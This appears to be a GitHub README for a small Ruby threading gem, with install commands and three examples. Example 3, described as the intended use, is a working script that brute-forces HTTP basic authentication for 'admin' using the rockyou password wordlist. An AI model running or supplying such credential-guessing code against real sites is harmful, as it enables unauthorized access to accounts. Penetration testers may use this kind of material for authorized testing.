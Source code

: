 # ruby-gems
Ruby Gems
Repo of Gems I have built to host locally for installs.
if you see bugs pls let me know.


## Itorator


### Install
```
wget "https://github.com/rschwass/ruby-gems/raw/master/iterator-0.0.0.gem"
gem install iterator-0.0.0.gem
```

### Usage
Takes 4 parameters, start number, end number, thread number, "function name".
In the blow example (0, 100, 5, "attack")

#### Example 1
I am saying start at 0, end at 100, using 5 threads execute the "attack" function. The class returns the current number (as a string class)to the function.

```
require 'iterator'

def attack(number)
  puts "number"
end

Iterator.new.begin(0, 100, 5, "attack")
```

#### Example 2
In this example we can read a file line by line, but by specifying the line at each read, we can use a multi-threaded approach.
```
require 'rio'
require 'iterator'

$work_file = '/opt/wordlists/rockyou.txt'
line_total = File.foreach($work_file).count


def example2(x)
  x=x.to_i
  puts (rio($work_file).lines[x..x].join.strip())
end


Iterator.new.begin(0, line_total, 5, "example2")
```
#### Example 3
This very basic is example is where it all comes together, in the way I utilize the gem as intended.
I iterate over a file and use it to brute force basic authentication on a website.


```
require 'rio'
require 'iterator'
require 'net/http'
require 'uri'

$work_file = '/opt/wordlists/rockyou.txt'
line_total = File.foreach($work_file).count 


def example3(x)
  x=x.to_i
  password=(rio($work_file).lines[x..x].join.strip())

  uri = URI.parse("http://somesite.com")
  request = Net::HTTP::Get.new(uri)
  request.basic_auth("admin", "#{password}")

  req_options = {
    use_ssl: uri.scheme == "https",
  }

  response = Net::HTTP.start(uri.hostname, uri.port, req_options) do |http|
    http.request(request)
  end

  puts response.code
  # response.body
end

Iterator.new.begin(0, line_total, 5, "example3")
```
